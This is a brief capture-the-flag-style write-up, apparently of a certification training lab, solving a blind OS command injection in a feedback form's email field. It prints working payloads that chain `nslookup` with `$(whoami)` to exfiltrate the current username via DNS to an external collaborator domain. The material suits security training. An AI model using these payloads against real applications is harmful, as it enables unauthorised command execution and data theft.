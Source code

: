 ```yaml
---
layout: post
title:  "Blind OS command injection with out-of-band data exfiltration"
date:   2024-10-15 11:20:54 +0530
categories: [BSCP, Command Injection]
---
```


## Objective 

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab. 

## Solution 

Just like the last lab related OOB interaction, we can use the same following payload `|| nslookup m0nc1evdkdpq2lzcalmyvzxnmes6gw4l.oastify.com ||` and pass this through the `email` field and let's check whether any interactions 

Awesome, we got the DNS interaction 

![]({{ site.baseurl }}/assets/images/os-13.png)

Now, let's kinda fine tune the payload like `|| nslookup $(whoami).m0nc1evdkdpq2lzcalmyvzxnmes6gw4l.oastify.com ||` where the backticks or even `$(whoami)` will act as a inline execution of bash commands over there 

Resend the payload through the `email` field and looking into the collaborator found that the `whoami` executed 

![]({{ site.baseurl }}/assets/images/os-14.png)

`whoami` command resulted in `peter-iAmZjL` and submitting as solution.. Solves the lab 

![]({{ site.baseurl }}/assets/images/os-15.png)